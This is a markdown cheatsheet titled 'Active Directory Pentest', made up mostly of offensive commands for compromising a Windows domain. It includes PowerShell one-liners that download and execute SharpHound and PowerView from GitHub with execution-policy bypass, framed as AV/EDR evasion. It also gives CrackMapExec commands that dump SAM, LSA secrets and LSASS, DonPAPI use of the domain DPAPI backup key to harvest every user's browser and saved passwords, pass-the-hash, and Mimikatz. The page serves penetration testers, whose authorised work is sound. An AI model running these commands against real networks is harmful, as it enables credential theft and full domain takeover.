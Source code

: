 ```yaml
---
title: Active Directory Pentest
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Active Directory, Pentest Cheatsheet]
pin: true
comments: false
---
```


## Mapping & Enumeration

### Basic Bloodhound

Use BloodHound to find compromission paths. First execute the collector on a host that is in the targeted domain.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1’);Invoke-BloodHound"
```
{: .nolineno }

If it's possible, execute SharpHound. On Linux, you can use the python version. More information here : <https://github.com/BloodHoundAD/SharpHound> and <https://github.com/fox-it/BloodHound.py>

```bash
python3 bloodhound.py -u 'XXX' -dc 'DOMAIN' -c all
```
{: .nolineno }

The tool give you a zip file, that you have to send to a Neo4j database. On Linux, install Neo4j and start the service :

```bash
sudo neo4j start
```
{: .nolineno }

Then execute BloodHound and import the zip file.

### Extended Bloodhound (PKI)

Best thing to do is to use Certipy to get a bloodhound extract, including everything about ADCS (templates, etc.) :

```bash
certipy find -bloodhound -u USER@DOMAIN -p 'PASSWORD' -dc-ip DC_IP
```
{: .nolineno }

Then, use Olivier Lyak's bloohound, which includes PKIs stuff (<https://github.com/ly4k/BloodHound>). This will give you the opportunity to check for a lot of knows attacks on ADCS (ESC1 to ESC10).

### Goddi

To get all the important information from the Active Directory :

```bash
./goddi-linux-amd64 -dc IP_DC -domain=DOMAIN -username=USERNAME -password=PASSWORD -unsafe
```
{: .nolineno }

---
## Shares

Dump all shares via CrackMapExec. This can be used on native Kali distribution :

```bash
crackmapexec smb IP_ADDRESS/MASK -u 'XXX' -p 'XXX' -M spider_plus -o READ_ONLY=false
```
{: .nolineno }

This command create a directory cme_spider_plus in /tmp (for Linux). To retrive passwords, simply use grep, by using keywords like 'password', 'pass', 'username', 'ldap://', etc ..

```bash
grep -rnw ./ -e 'password'
```
{: .nolineno }

If detected by AV/EDR, try PowerShell one-liner PowerView :

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')"
```
{: .nolineno }

Then, a lot of functionalities can be used. To find all domain shares :

```powershell
Find-DomainShare -CheckShareAccess
```
{: .nolineno }

All the functionalities here : <https://powersploit.readthedocs.io/en/latest/Recon/>

---
## Dump credentials

### CrackMapExec

Many possibilites. Use --local-auth if using a local admin account.
With lsassy module :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' -M lsassy
```
{: .nolineno }

Dump SAM (local hashes) :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --sam
```
{: .nolineno }

Dump LSA secrets :

```bash
crackmapexec smb IP_ADDRESS/MASK -d 'DOMAIN'-u 'USER' -p 'PASSWORD' --lsa
```
{: .nolineno }

Many possibilites here, if you get passwords or NTLM hashes, you know what to do. There's others possibilites too, like authenticating with AES keys (you can use 256 or 128 bits keys). You can get it by dumping LSA secrets. Once you get one, you can use the AES keys with Impacket to do whatever you want, and also get a TGT :

```bash
impacket-getTGT domain.local/username -aesKey AES_KEY -dc-ip DC_IP
```
{: .nolineno }

### DonPAPI

Use DonPAPI to retrieve a lot of credentials (wifi, dpapi keys, browsers passwords, ...) :

```bash
python3 DonPAPI.py DOMAIN/USERNAME:PASSWORD@IP_ADDRESS
```
{: .nolineno }

It's possible to use the tool with Pass-The-Hash :

```bash
python3 DonPAPI.py DOMAIN/USERNAME@IP_ADDRESS --hashes LM:NT
```
{: .nolineno }

If you get a valid admin account, dump the domain backup key. This backup key (.pvk) can then be used to dump all domain user's secrets :

```bash
impacket-dpapi backupkeys --export -t domain.local/username@DC_FQDN -k -no-pass
```
{: .nolineno }

Then, use the domain backup key on all machine, with one command. Extract all FQDN in a file (targets for example) and then :

```bash
python3 DonPAPI.py -pvk pathtofile.pvk domain.local/username@targets -k -no-pass
```
{: .nolineno }

You can parse the output by using this magic one-liner :

```bash
cat DonPapiOutput.txt | grep -ae 'Firefox Password' -e 'Chrome Password' | cut -d : -f 3 | cut -d ' ' -f 2 | sort | uniq >> motdepasse.txt && cat DonPapiOutput.txt | grep -ae '\[mRemoteNG\]' | cut -d : -f 2 | cut -d ' ' -f 1 | sort | uniq >> motdepasse.txt & cat motdepasse.txt | sort | uniq | sed "s,\x1B\[[0-9;]*[a-zA-Z],,g" > motdepasse.txt
```
{: .nolineno }

### Mimikatz

On Windows, retrieve password/hash from a dump file :

```powershell
sekurlsa::minidump "XXXXXXXXX.DMP"
sekurlsa::logonPasswords
```

On Kali, use pypykatz based on python :

```bash
pypykatz lsa minidump 'XXX.DMP'
```
{: .nolineno }

### Others

Native Windows command :

```markdown
rundll32 keymgr.dll, KRShowKeyMgr
```
{: .nolineno }

Savoir : Mimikatz recompiled in Go lang : <https://github.com/vincd/savoir>
